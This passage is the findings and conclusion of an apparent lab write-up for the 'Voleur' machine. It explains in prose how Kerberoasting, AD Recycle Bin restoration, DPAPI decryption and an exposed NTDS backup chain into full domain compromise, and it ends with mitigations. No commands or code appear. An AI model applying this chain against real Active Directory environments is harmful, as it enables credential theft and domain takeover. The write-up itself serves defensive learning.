- **Weak Service Account Password**: The `svc_winrm` password was present in the rockyou.txt wordlist, making it trivially crackable once the TGS hash was obtained
- **AD Recycle Bin Accessible to Non-Administrative Users**: The `Restore_Users` group was granted the ability to restore deleted Active Directory objects, allowing a service account to reactivate a former employee's account along with its group memberships and access rights
- **Sensitive Credentials in Archived User Profile**: The archived home directory of a former employee was stored in an accessible SMB share, exposing DPAPI-protected credential blobs that could be decrypted using the account's known password
- **NTDS Backup Accessible via WSL**: A complete Active Directory backup (ntds.dit, SYSTEM, and SECURITY hives) was stored in a directory accessible to a non-administrative backup service account via WSL, enabling full offline extraction of all domain password hashes
- **SSH Key Stored in World-Readable Directory**: The private SSH key of the `svc_backup` account was stored in a directory accessible to users with Third-Line Support group membership, enabling direct SSH access to the WSL environment

# Conclusion

The Voleur machine demonstrates how a combination of misconfigurations and poor security hygiene across multiple layers of a corporate Active Directory environment can be chained together to achieve complete domain compromise. From a single low-privileged credential, it was possible to harvest additional passwords from a weakly-protected spreadsheet, exploit Kerberoasting paths identified through BloodHound, restore a deleted account from the Recycle Bin, decrypt archived DPAPI credentials, and ultimately reach the NTDS backup that exposed every account in the domain. To mitigate these vulnerabilities, organizations should enforce strict access controls on SMB shares, ensuring sensitive documents are never accessible to generic low-privileged accounts. Spreadsheets and documents containing credentials should never exist at all; secrets must be managed through dedicated vault solutions. Service account passwords must be long, complex, and never based on dictionary words to resist offline cracking of Kerberoasted hashes. The Active Directory Recycle Bin restore capability should be restricted exclusively to Domain Admins. Archived user profiles must be removed from the file system rather than kept in accessible shares. NTDS backups require the same level of protection as a live Domain Controller, with access limited to designated backup administrators and storage encrypted at rest. This case study underscores that Active Directory security requires a layered defense approach, as each individual misconfiguration may appear minor in isolation but creates an irresistible chain toward complete domain compromise when combined.
